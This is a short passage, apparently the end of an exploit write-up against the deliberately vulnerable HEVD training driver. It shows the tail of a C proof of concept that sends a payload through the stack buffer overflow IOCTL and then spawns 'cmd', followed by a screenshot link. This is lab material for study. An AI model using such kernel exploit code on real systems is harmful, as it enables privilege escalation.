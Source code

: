 ```c
		hDriver,
		HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
		payload,
		(DWORD)payloadSize,
		NULL,
		0,
		NULL,
		NULL);

	system("cmd");

	return 0;
}
```
![poc](/assets/img/2025-01-23/poc.png)